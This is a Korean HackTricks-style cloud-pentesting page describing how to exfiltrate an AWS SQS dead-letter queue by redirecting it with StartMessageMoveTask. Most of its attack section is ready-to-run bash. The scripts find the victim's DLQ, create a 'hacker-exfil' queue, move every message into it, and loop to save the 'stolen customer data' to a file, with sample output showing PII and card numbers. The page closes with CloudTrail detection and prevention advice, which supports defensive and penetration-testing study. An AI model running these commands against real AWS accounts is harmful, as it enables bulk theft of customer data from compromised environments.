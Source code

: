 # AWS – SQS DLQ Redrive Exfiltration via StartMessageMoveTask

{{#include ../../../banners/hacktricks-training.md}}

## 설명

SQS의 message move task를 악용해 피해자의 Dead-Letter Queue (DLQ)에 누적된 모든 메시지를 공격자가 제어하는 큐로 `sqs:StartMessageMoveTask`를 사용해 리다이렉트하여 탈취합니다. 이 기법은 AWS의 정당한 메시지 복구 기능을 악용해 시간이 지나며 DLQ에 축적된 민감한 데이터를 탈취합니다.

## Dead-Letter Queue (DLQ)란 무엇인가?

Dead-Letter Queue는 주요 애플리케이션에서 메시지 처리가 실패했을 때 자동으로 전송되는 특수한 SQS 큐입니다. 이러한 실패한 메시지에는 종종 다음이 포함됩니다:
- 처리되지 못한 민감한 애플리케이션 데이터
- 오류 세부 정보 및 디버깅 정보
- Personal Identifiable Information (PII)
- API 토큰, 자격 증명 또는 기타 비밀 정보
- 비즈니스에 중요한 트랜잭션 데이터

DLQ는 실패한 메시지의 "무덤" 역할을 하며, 애플리케이션이 제대로 처리하지 못해 시간이 지나며 민감한 데이터가 축적되기 때문에 가치 있는 타깃입니다.

## 공격 시나리오

**실제 사례:**
1. **E-commerce application**이 SQS를 통해 고객 주문을 처리한다
2. **일부 주문이 실패한다**(결제 문제, 재고 문제 등) 그리고 DLQ로 이동한다
3. **DLQ가 수주/수개월 동안 실패한 주문을 누적**하며 고객 데이터가 쌓인다: `{"customerId": "12345", "creditCard": "4111-1111-1111-1111", "orderTotal": "$500"}`
4. **공격자가 AWS 자격 증명에 접근**하게 된다
5. **공격자가 DLQ에 민감한 데이터가 수천 건 쌓여 있음을 발견**한다
6. **개별 메시지에 접근하려 시도하는 대신**(느리고 눈에 띔) 공격자는 `StartMessageMoveTask`를 사용해 모든 메시지를 자신의 큐로 일괄 전송한다
7. **공격자가 한 번의 작업으로** 모든 과거 민감한 데이터를 추출한다

## 요구 조건
- 소스 큐는 DLQ로 구성되어 있어야 한다(최소 하나의 큐에서 RedrivePolicy로 참조됨).
- IAM 권한 (침해된 피해자 주체로 실행):
- DLQ(소스)에서: `sqs:StartMessageMoveTask`, `sqs:GetQueueAttributes`.
- 대상 큐에서: 메시지 전달 권한(예: queue policy가 피해자 주체로부터의 `sqs:SendMessage`를 허용). 동일 계정의 대상인 경우 일반적으로 기본적으로 허용됨.
- SSE-KMS가 활성화된 경우: 소스 CMK에 대해 `kms:Decrypt`, 대상 CMK에 대해 `kms:GenerateDataKey`, `kms:Encrypt`.

## 영향
네이티브 SQS API를 사용해 DLQ에 누적된 민감한 페이로드(실패 이벤트, PII, 토큰, 애플리케이션 페이로드 등)를 고속으로 탈취할 수 있습니다. 대상 큐 정책이 피해자 주체로부터의 `SendMessage`를 허용하면 크로스-계정에서도 작동합니다.

## 악용 방법

- 피해자 DLQ ARN을 식별하고 해당 큐가 실제로 어떤 큐에 의해 DLQ로 참조되고 있는지 확인합니다(어떤 큐든 상관없음).
- 공격자가 제어하는 대상 큐를 생성하거나 선택하고 해당 큐의 ARN을 확보합니다.
- 피해자 DLQ에서 대상 큐로 message move task를 시작합니다.
- 진행 상황을 모니터링하거나 필요 시 취소합니다.

### CLI 예제: E-commerce DLQ에서 고객 데이터 탈취

**시나리오**: 공격자가 AWS 자격 증명을 탈취했고, 한 전자상거래 애플리케이션이 SQS와 실패한 고객 주문 처리 시도를 포함하는 DLQ를 사용하고 있음을 발견했다.

1) **피해자 DLQ 발견 및 검사**
```bash
# List queues to find DLQs (look for names containing 'dlq', 'dead', 'failed', etc.)
aws sqs list-queues --queue-name-prefix dlq

# Let's say we found: https://sqs.us-east-1.amazonaws.com/123456789012/ecommerce-orders-dlq
VICTIM_DLQ_URL="https://sqs.us-east-1.amazonaws.com/123456789012/ecommerce-orders-dlq"
SRC_ARN=$(aws sqs get-queue-attributes --queue-url "$VICTIM_DLQ_URL" --attribute-names QueueArn --query Attributes.QueueArn --output text)

# Check how many messages are in the DLQ (potential treasure trove!)
aws sqs get-queue-attributes --queue-url "$VICTIM_DLQ_URL" \
--attribute-names ApproximateNumberOfMessages
# Output might show: "ApproximateNumberOfMessages": "1847"
```
2) **공격자가 제어하는 대상 큐 생성**
```bash
# Create our exfiltration queue
ATTACKER_Q_URL=$(aws sqs create-queue --queue-name hacker-exfil-$(date +%s) --query QueueUrl --output text)
ATTACKER_Q_ARN=$(aws sqs get-queue-attributes --queue-url "$ATTACKER_Q_URL" --attribute-names QueueArn --query Attributes.QueueArn --output text)

echo "Created exfiltration queue: $ATTACKER_Q_ARN"
```
3) **bulk message theft을 실행**
```bash
# Start moving ALL messages from victim DLQ to our queue
# This operation will transfer thousands of failed orders containing customer data
echo "Starting bulk exfiltration of $SRC_ARN to $ATTACKER_Q_ARN"
TASK_RESPONSE=$(aws sqs start-message-move-task \
--source-arn "$SRC_ARN" \
--destination-arn "$ATTACKER_Q_ARN" \
--max-number-of-messages-per-second 100)

echo "Move task started: $TASK_RESPONSE"

# Monitor the theft progress
aws sqs list-message-move-tasks --source-arn "$SRC_ARN" --max-results 10
```
4) **탈취한 민감한 데이터 수집**
```bash
# Receive the exfiltrated customer data
echo "Receiving stolen customer data..."
aws sqs receive-message --queue-url "$ATTACKER_Q_URL" \
--attribute-names All --message-attribute-names All \
--max-number-of-messages 10 --wait-time-seconds 5

# Example of what an attacker might see:
# {
#   "Body": "{\"customerId\":\"cust_12345\",\"email\":\"john@example.com\",\"creditCard\":\"4111-1111-1111-1111\",\"orderTotal\":\"$299.99\",\"failureReason\":\"Payment declined\"}",
#   "MessageId": "12345-abcd-6789-efgh"
# }

# Continue receiving all messages in batches
while true; do
MESSAGES=$(aws sqs receive-message --queue-url "$ATTACKER_Q_URL" \
--max-number-of-messages 10 --wait-time-seconds 2 --output json)

if [ "$(echo "$MESSAGES" | jq '.Messages | length')" -eq 0 ]; then
echo "No more messages - exfiltration complete!"
break
fi

echo "Received batch of stolen data..."
# Process/save the stolen customer data
echo "$MESSAGES" >> stolen_customer_data.json
done
```
### 계정 간 주의사항
- 대상 큐는 피해자 principal이 `sqs:SendMessage`을 수행할 수 있도록 허용하는 리소스 정책을 가져야 합니다 (and, if used, KMS grants/permissions).

## 이 공격이 효과적인 이유

1. **정상적인 AWS 기능**: 내장된 AWS 기능을 사용하므로 악의적인 행위로 감지되기 어려움  
2. **대량 작업**: 느리게 개별 접근하는 대신 수천 개의 메시지를 빠르게 전송  
3. **이력 데이터**: DLQs는 수주/수개월에 걸쳐 민감한 데이터를 축적함  
4. **눈에 띄지 않음**: 많은 조직이 DLQ 접근을 면밀히 모니터링하지 않음  
5. **계정 간 가능**: 권한이 허용되면 공격자의 자체 AWS 계정으로 데이터를 exfiltrate할 수 있음

## 탐지 및 방지

### 탐지
의심스러운 `StartMessageMoveTask` API 호출을 CloudTrail에서 모니터링하세요:
```json
{
"eventName": "StartMessageMoveTask",
"sourceIPAddress": "suspicious-ip",
"userIdentity": {
"type": "IAMUser",
"userName": "compromised-user"
},
"requestParameters": {
"sourceArn": "arn:aws:sqs:us-east-1:123456789012:sensitive-dlq",
"destinationArn": "arn:aws:sqs:us-east-1:attacker-account:exfil-queue"
}
}
```
### 예방
1. **Least Privilege**: 필요한 역할에 대해서만 `sqs:StartMessageMoveTask` 권한을 제한하세요
2. **Monitor DLQs**: 비정상적인 DLQ 활동에 대해 CloudWatch 알람을 설정하세요
3. **Cross-Account Policies**: 크로스-계정 액세스를 허용하는 SQS queue 정책을 신중히 검토하세요
4. **Encrypt DLQs**: 제한된 키 정책을 적용한 SSE-KMS를 사용하세요
5. **Regular Cleanup**: 민감한 데이터가 DLQs에 무기한 쌓이지 않도록 정기적으로 정리하세요

{{#include ../../../banners/hacktricks-training.md}}

